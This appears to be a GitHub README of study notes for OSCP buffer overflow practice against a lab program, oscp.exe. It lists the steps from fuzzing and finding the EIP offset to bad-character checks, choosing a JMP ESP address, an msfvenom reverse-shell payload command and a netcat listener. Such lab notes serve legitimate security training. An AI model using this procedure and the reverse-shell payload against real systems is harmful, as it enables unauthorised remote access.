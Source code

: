 # oscp_bof-prep
Buffer Overflow preparation for OSCP

# Task: oscp.exe (OVERFLOW 1)
# Fuzzing
1. Run fuzzer.py & make a note of the largest number of bytes that were sent
   * Crashed at 2000 bytes

# Crash replication & Controlling EIP
1. Generate a cyclic pattern of a length 400 bytes longer than the string that crashed the server (2000 + 400)
   * ./pattern_create.rb -l 2400

2. Copy the output and place it into the payload var of exploit.py
3. Restart the app in Immunity Debugger & Run exploit.py
4. While the unique buffer is on the stack, use mona's findmsp command with the distance arg. set to the pattern length (2400)
   * !mona config -set workingfolder c:\mona\%p
   * !mona findmsp -distance 2400


5. Set the offset var to this value in exploit.py(1978)
6. Set the payload var to an empty string
7. Set the retn var to “BBBB”
8. Restart the app in Immunity & Run exploit.py (EIP should be overwritten with 4 B's (e.g 42424242)


# Finding Bad Characters
1. Generate a bytearray with mona (& exclude null byte \x00 by default), note the location of bytearray.bin
   * !mona bytearray -b “\x00”
3. Generate an identical bytearray with bytearray.py
4. Update exploit.py and set the payload var to the string of badchars the script generates
5. Restart the app in Immunity & Run exploit.py, make note of the address to which ESP register points
   * !mona compare -f C:\mona\oscp\bytearray.bin -a [ESP]

5. Generate a new bytearray with mona, specifying the found badchars along with \x00 & Update payload var in exploit.py and remove the new badchars as well
   * !mona bytearray -b “\x00\x07\x08\x2e\x2f\xa0\xa1”
6. Restart app & Run exploit
7. Do this until results status returns “Unmodified”. This indicates that no more badchars exist.


# Finding a Jump Point
1. Run the following mona command with all the identified badchars (including \x00)
   * !mona jmp -r esp -cpb “\x00\x07\x08\x2e\x2f\xa0\xa1”


2. Choose an address and update exploit.py, setting the retn var to the address, written backwards (little endian).
   1) \x62\x50\x11\xaf -> \xaf\x11\x50\x62

# Generate Payload
1. msfvenom (LHOST=kali_vpn_ip, -b with all the identified badchars)
   * msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
2. Update payload var in exploit.py

# Prepend NOPs
1. padding = “\x90” * 16

# Exploit
1. start netcat listener on attacker machine (nc -nlvp 4444)
2. Restart app in immunity & Run exploit.py

# Reference
* https://tryhackme.com/room/bufferoverflowprep
* https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst